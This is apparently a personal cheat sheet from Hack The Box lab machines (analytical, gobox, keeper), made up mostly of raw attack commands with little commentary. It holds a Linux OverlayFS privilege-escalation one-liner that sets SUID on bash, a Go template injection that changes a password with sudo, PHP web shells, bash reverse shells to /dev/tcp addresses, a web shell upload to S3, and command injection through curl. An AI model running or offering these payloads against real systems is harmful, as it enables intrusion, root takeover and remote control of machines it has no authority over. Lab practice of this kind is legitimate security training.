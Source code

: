 data.analytical.htb
https://github.com/securezeron/CVE-2023-38646
linpeas
env == shows the variables
cat /etc/os-release
 CVE-2021-3493
Ubuntu OverlayFS Local Privesc
https://github.com/briskets/CVE-2021-3493
gcc exploit.c -o exploit  == compiled it using GCC

Alternate:
to see if I get the uid that means the OS is vulnerable:
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'

To exploit:
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod u+s /bin/bash")'

/bin/bash -p




=================================================================================
gobox


{{.}}
{{.DebugCmd "echo 'username:mm' | sudo chpasswd"}}

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.13.48.129/9000 0>&1'"); ?>

sudo apt install network-manager-l2tp  

aws config  
aws s3 cp sh.php s3://website/sh.php --endpoint-url=http://10.10.11.113:80  

exports/top_players_6829ur6n.php
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'|base64
<%3fphp+system($_GET['cmd'])+%3f>
GET /shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.18/8008+0>%261' HTTP/1.1
http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'

script /dev/null -c bash

curl http://127.0.0.1:8000?ippsec.run[id]
curl http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp] == cp /bin/bash /tmp
/tmp/bash -p


=================================================================================
keeper

scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip /home/kali == download file from remote sever to my /home/klai

python3 poc.py -d KeePassDumpFull.dmp
